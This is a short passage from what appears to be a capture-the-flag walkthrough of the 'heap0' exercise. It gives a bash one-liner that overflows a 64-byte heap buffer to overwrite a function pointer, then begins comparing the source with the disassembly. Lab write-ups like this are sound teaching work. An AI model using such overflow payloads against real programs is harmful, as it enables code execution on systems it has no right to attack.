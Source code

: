 ![exploitation illustration in gdb](./exp.png)

Throwing it into the program:
```bash
$ ./heap0 "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP00001111\x64\x84\x04\x08"`"
data is at 0x804a008, fp is at 0x804a050
level passed
```


## Comparasion with the source code
For extra work, we will spend some time comparing the source code with its disassembly.

The first `malloc()` call is about allocating 64 (0x40) bytes heap memory to buffer `name`:
```bash
0x08048495 <main+9>:	mov    DWORD PTR [esp],0x40
0x0804849c <main+16>:	call   0x8048388 <malloc@plt>
0x080484a1 <main+21>:	mov    DWORD PTR [esp+0x18],eax
```
